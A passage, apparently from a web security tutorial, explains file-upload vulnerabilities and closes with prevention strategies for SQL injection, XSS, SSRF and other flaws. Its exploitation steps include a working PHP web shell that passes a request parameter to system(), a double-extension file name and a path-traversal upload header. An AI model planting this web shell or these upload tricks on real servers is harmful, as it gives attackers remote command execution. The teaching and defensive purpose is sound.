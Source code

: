 ### Technical Details

- **Root Cause**: Insufficient validation of file uploads
- **Vulnerability Pattern**: Inadequate checks on file type, content, or storage location
- **Impact**: Allows uploading and executing malicious files

### Exploitation

1. **Upload a malicious file with a deceptive extension**:
   ```
   # Malicious PHP file disguised as an image
   evil.php.jpg
   ```

2. **Path traversal in upload location**:
   ```
   # Using path traversal to write to a sensitive location
   X-Upload-Path: ../public/images
   ```

3. **Upload a web shell**:
   ```php
   <?php
   if(isset($_REQUEST['cmd'])){
     echo "<pre>";
     $cmd = ($_REQUEST['cmd']);
     system($cmd);
     echo "</pre>";
   }
   ?>
   ```

4. **How it works**:
   - Lack of proper validation allows uploading executable files
   - Path traversal allows writing to unintended locations
   - Files may be directly accessible via the web server
   - Uploaded web shells provide command execution capabilities

5. **Result**: The attacker can upload malicious files that provide backdoor access to the server

---

## Conclusion

### Key Takeaways

- Web vulnerabilities often stem from trust in user input
- Input validation should happen at all layers
- Security is about defense in depth
- Modern frameworks provide built-in protections, but developers need to understand the risks

### Prevention Strategies

- **SQL Injection**: Use parameterized queries/prepared statements
- **XSS**: Content Security Policy (CSP) and output encoding
- **CSRF**: Anti-CSRF tokens, SameSite cookies
- **JWT Issues**: Proper validation, secure key management
- **Prototype Pollution**: Deep cloning, Object.freeze()
- **SSRF**: Allowlist validation, egress filtering
- **Command Injection**: Input validation, avoid shell execution
- **File Uploads**: Strict validation, separate domains for user content
- **IDOR**: Access control checks, indirect object references
- **Race Conditions**: Proper transaction isolation
